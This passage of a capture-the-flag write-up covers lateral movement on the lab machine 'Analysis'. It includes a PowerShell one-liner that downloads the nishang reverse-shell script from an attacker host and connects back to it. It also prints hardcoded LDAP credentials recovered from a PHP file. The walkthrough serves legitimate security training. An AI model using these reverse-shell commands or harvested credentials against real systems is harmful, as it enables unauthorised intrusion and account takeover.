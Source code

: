 ## Lateral movement 

### svc_web to webservice
So now we have a webshell as the user **svc_web** but for ease of use i wanted to upgrade this to a full on reverse shell. I hosted a copy of  **Invoke-PowerShellTcp.ps1** script of [nishang](https://github.com/samratashok/nishang) This github repo contains multiple powershell scripts including reverse shells and other post exploitation tools. next i setup a webserver in the shells directory of the github project using python.

```bash
python -m http.server 80
```

So now the preparations for our payload were made. Next issued the following command to launch our reverse shell.

```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.16.40/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.40 -Port 443
```
A moment later we'd receive a reverse shell.

![Reverse shell](/assets/img/Analysis/Analysis_15.png)


While looking around at the files of the web applications files we could see something interesting in the **PS C:\inetpub\internal\users\list.php** file. here we could find some hardcoded credentials that were used to facilitate the ldap querries from the ldap injection we abused earlier. If you want to see the full file please check out the appendix.

```php
<?php

//LDAP Bind paramters, need to be a normal AD User account.
error_reporting(0);
$ldap_password = 'N1G6G46G@G!j';
$ldap_username = 'webservice@analysis.htb';
$ldap_connection = ldap_connect("analysis.htb");
```

So we found credentials for a new users which is great. But seeing we can't log in with these directly we'll need to run these using runas, one issue with this is that runas doesn't work unless its a fully interactive shell. The tool [RunasCS](https://github.com/antonioCoco/RunasCs) though can help us with this as it allows us to execute commands without needing to have a interactive shell.

